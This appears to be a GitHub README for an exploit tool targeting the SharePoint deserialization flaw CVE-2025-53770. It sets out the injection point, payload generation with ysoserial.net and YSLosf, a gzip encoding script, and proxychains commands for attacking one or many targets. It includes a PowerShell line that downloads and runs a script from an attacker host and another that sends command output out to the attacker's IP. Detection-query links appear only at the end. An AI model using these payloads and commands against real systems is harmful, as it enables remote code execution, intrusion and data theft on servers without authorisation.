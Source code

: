 # SharePoint WebPart Injection Exploit Tool


| Field               | Value                                                                 |
|--------------------|-----------------------------------------------------------------------|
| **Component**       | Microsoft SharePoint (on-premises)                                    |
| **Endpoint**        | `/layouts/15/ToolPane.aspx`                                           |
| **Parameter**       | `MSOTlPn_DWP`                                                         |
| **Injected Control**| `<Scorecard:ExcelDataSet CompressedDataTable="...">`                 |
| **Vulnerability**   | Insecure deserialization (`BinaryFormatter`, `LosFormatter`, etc.)    |
| **CVE**             | [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770)     |
| **NOTICE**          | [MSRC](https://msrc.microsoft.com/blog/2025/07/customer-guidance-for-sharepoint-vulnerability-cve-2025-53770/)  |
---

## How It Works

<p align="center">
  <img src="exploit-flow.png" />
</p>

1. Authenticated users can send POST requests to `/_layouts/15/ToolPane.aspx?DisplayMode=Edit`.

2. The request includes the parameter `MSOTlPn_DWP`, containing an injected **WebPart XML**.

3. Inside the WebPart, the attacker places a `<Scorecard:ExcelDataSet>` component with the `CompressedDataTable` attribute holding a payload:
- Serialized .NET object
- Encoded in Base64
- Compressed using GZIP

4. SharePoint automatically **inflates** and **deserializes** the object using unsafe formatters.

5. If the object contains a valid **gadget chain** (e.g., `ObjectDataProvider`), **arbitrary code** is executed on the server.

## Requirements

- Python 3.x
- Required Python modules:
```bash
pip install -r requirements.txt
```

* A Base64 GZIP-compressed .NET deserialization payload (see next section)

The payload must be:

* A `.NET DataSet` or similar gadget chain
* Serialized using `LosFormatter` or `BinaryFormatter`
* Base64-encoded
* GZIP-compressed
* Embedded inside this WebPart structure:

```xml
<asp:UpdateProgress ID="UpdateProgress1" runat="server" AssociatedUpdatePanelID="upTest">
  <ProgressTemplate>
    <div class="divWaiting">
      <Scorecard:ExcelDataSet CompressedDataTable="{PAYLOAD}" DataTable-CaseSensitive="false" runat="server" />
    </div>
  </ProgressTemplate>
</asp:UpdateProgress>
```

---

## Generating Payloads (Using `ysoserial.net`)

### Generate the base64 serialized object

```bash
cd ysoserial.net

# compile from source or use Dockerfile

ysoserial.exe -f LosFormatter -g ObjectDataProvider -o base64 -c "calc.exe" > payload.b64
```

> You can replace `calc.exe` with any command — for example, a reverse shell.

---

## Generating Payloads with `YSLosf`

### Step 1: Create Payload File

Put your command (e.g., reverse shell) into `payload.txt`:

```powershell
powershell -nop -c iwr http://attacker/shell.ps1 | iex
```

### Step 2: Generate Base64 Payload

```bash
C:\Users\darkarmy\Desktop\YSLosf\bin\x64\Debug\net48>.\YSLosf.exe --p payload.txt
Serialized string:
/wEFBWZsdG1j

Base64 encoded:
L3dFRkJXWnNkRzFq

C:\Users\darkarmy\Desktop\YSLosf\bin\x64\Debug\net48>.\YSLosf.exe -d dpayload.txt
Deserialized object:
fltmc
```

---

### Compress with GZIP

```python
# compress.py
import gzip, base64

with open("base64.txt", "rb") as f:
    b64 = base64.b64decode(f.read())
    gz = gzip.compress(b64)
    # print(base64.b64encode(gz).decode())
    encoded = base64.b64encode(gz).decode()

with open("payload-final.txt", "w") as out_file:
    out_file.write(encoded)
```

> Save the final output into `payload.txt` — this is what you give to the exploit script.

---

## Compatible Gadget Chains

You can use any gadget chain supported by your serialization tool. Common examples include:

* `System.Data.DataSet`
* `System.Data.Services.Internal.ExpandedWrapper`
* `System.Web.UI.LosFormatter`
* `System.Windows.Data.ObjectDataProvider`

> For more, check [ysoserial.net](https://github.com/pwntester/ysoserial.net)

---

## Output / Echo

This vulnerability **does not return command output** like `ipconfig` in the HTTP response. If you want output:

* Use reverse shell payloads
* Or redirect output via `Invoke-WebRequest`:

```powershell
powershell -c "ipconfig | Invoke-WebRequest -Uri http://your-ip:8118/?d=$(Get-Content -Raw)"
```


## Example Usage

```bash
podman build -t toolshell .

podman run -it --name toolshell \
  --cap-add=net_admin \
  --device /dev/net/tun \
  -v /etc/resolv.conf:/etc/resolv.conf:ro \
  -p 127.0.0.1:8118:8118 -p 127.0.0.1:9050:9050 -p 127.0.0.1:9051:9051 \
  -d toolshell

podman exec -it toolshell /bin/bash

# single target
proxychains python3 CVE-2025-53770.py -u https://target -p payload.txt

# multiple targets
proxychains python3 CVE-2025-53770.py -f targets.txt -p payload.txt --proxy http://127.0.0.1:8118
```

### Arguments:

| Argument      | Description                                        |
|---------------|----------------------------------------------------|
| `-u`          | Target URL (e.g., `https://sp.company.local`)      |
| `-f`          | File containing target URLs (one per line)         |
| `-p`          | Payload file or direct Base64 GZIP string          |
| `--proxy`     | Optional proxy (e.g., `http://127.0.0.1:8080`)     |
| `-t`          | Timeout in seconds (default: 15)                   |

## SIEM Detection Queries:

| Field               | Value                                                                 |
|---------------------|-----------------------------------------------------------------------|
| **Elastic**         | [EQL](https://github.com/robert-iw3/threat-hunting/blob/main/elastic-security/CVE-2025-53770.md) |
| **Splunk**          | [SPL](https://github.com/robert-iw3/threat-hunting/blob/main/splunk/CVE-2025-53770.md)           |
| **SentinelOne**     | [S1QL](https://github.com/robert-iw3/threat-hunting/blob/main/sentinel_one/spinstall0.aspx.md)   |
| **Sigma**           | [PostExploit](https://github.com/robert-iw3/threat-hunting/blob/main/sigma/2025/sharepoint_postexploit.yaml) |
| **Sigma**           | [Webshell](https://github.com/robert-iw3/threat-hunting/blob/main/sigma/2025/sharepoint_webshell.yaml)    |
| **MS Sentinel**     | [CVE-2025-53770](https://github.com/robert-iw3/threat-hunting/blob/main/kql/Sentinel/SharePoint%20Vulnerability%20Exploitation%20Attempt%20(CVE-2025-49704%2C%20CVE-2025-49706%2C%20CVE-2025-53770).kql)     |
| **NOTICE**          | [MSRC](https://msrc.microsoft.com/blog/2025/07/customer-guidance-for-sharepoint-vulnerability-cve-2025-53770/)  |
---